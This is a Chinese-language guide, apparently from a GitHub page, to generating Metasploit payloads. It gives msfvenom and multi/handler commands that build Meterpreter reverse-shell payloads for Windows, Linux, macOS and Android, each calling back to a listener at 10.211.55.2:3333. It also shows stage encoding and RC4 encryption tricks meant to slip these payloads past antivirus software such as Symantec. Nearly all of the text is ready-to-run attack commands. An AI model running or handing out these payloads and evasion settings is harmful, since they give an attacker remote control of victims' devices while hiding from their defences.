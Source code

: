 这是`green-m`大佬提到的一种方式，使用reverse_https等payload时可以使用下列方法bypass部分杀软。

生成payload:`msfvenom -p  windows/meterpreter/reverse_https  lhost=10.211.55.2 lport=3333   -f c`

在msf中进行如下设置，将控制端向被控制端发送的stage进行编码
```
msf exploit(multi/handler) > set EnableStageEncoding true   //尝试使用不同的编码器对stage进行编码，可能绕过部分杀软的查杀
EnableStageEncoding => true
msf exploit(multi/handler) > set stageencoder x86/fnstenv_mov
Stageencoder => x64/xor
msf exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false
```
同样，使用reverse_tcp_rc4也有同样的效果，而且不能设置stageencoder选项，更稳定更方便。

```
msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=10.211.55.2 lport=3333 RC4PASSWORD=tidesec  -f c
```
利用rc4对传输的数据进行加密，密钥在生成时指定，在监听的服务端设置相同的密钥。就可以在symantec眼皮地下执行meterpreter。

# 各平台payload生成

## 二进制

### windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Windows -f exe > shell.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f exe > shell.exe
```

windows下生成32位/64位payload时需要注意：以windows/meterpreter/reverse_tcp为例，该payload默认为32位，也可使用-a x86选项指定。如果要生成64位，则payload为windows/x64/meterpreter/reverse_tcp。

###  Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Linux -f elf > shell.elf
```
###  Mac
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform osx -f macho > shell.macho
```

### Android
```
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.apk

msfvenom -p android/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 R > test.apk
```
